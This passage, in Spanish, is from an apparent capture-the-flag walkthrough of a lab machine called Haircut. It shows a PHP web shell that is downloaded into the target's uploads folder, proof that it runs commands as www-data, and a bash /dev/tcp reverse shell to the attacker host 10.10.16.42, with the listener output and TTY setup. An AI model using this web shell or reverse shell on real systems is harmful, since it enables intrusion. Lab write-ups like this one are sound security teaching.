 Empecé tratando de lograr que me descargue un archivo php que me logre ejecutar comandos a través de la llamada de un parámetro.
```bash
$ nano shell.php
$cat shell.php 
<?php system($_GET['cmd']); ?>
```
Trataré de que me descargue y guarde este archivo php en la carpeta uploads.
`http://10.10.16.42/shell.php -o uploads/fred.php`
<img class="img" src="/assets/img/machines/Haircut/5.png" width="1000">
Lo mando y me llaga la petición.
```bash
python3 -m http.server 80    
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.186.45 - - [14/May/2023 13:00:31] "GET /shell.php HTTP/1.1" 200 -
```
Ahora compruebo que haya funcionado.
```bash
curl -s -X GET http://10.129.186.45/uploads/fred.php\?cmd\=whoami
www-data
```
Tenemos RCE como www-data.
# Shell como www-data.
Nos enviaremos una shell como www-data con el siguiente comando.
```bash
$ curl -G http://10.129.186.45/uploads/fred.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.16.42/443 0>&1'"
$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.42] from (UNKNOWN) [10.129.186.45] 50956
bash: cannot set terminal process group (1239): Inappropriate ioctl for device
bash: no job control in this shell
www-data@haircut:~/html/uploads$ whoami
whoami
www-data
www-data@haircut:~/html/uploads$
```
Haremos un tratamiento de la tty.
```bash
www-data@haircut:~/html/uploads$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@haircut:~/html/uploads$ ^Z
CTRL + Z
[1]  + 6112 suspended  nc -nlvp 443
$ stty raw -echo;fg
[1]  + 6112 continued  nc -nlvp 443

www-data@haircut:~/html/uploads$ export TERM=xterm 
www-data@haircut:~/html/uploads$ export SHELL=bash
www-data@haircut:~/html/uploads$ stty rows 48 columns 238
```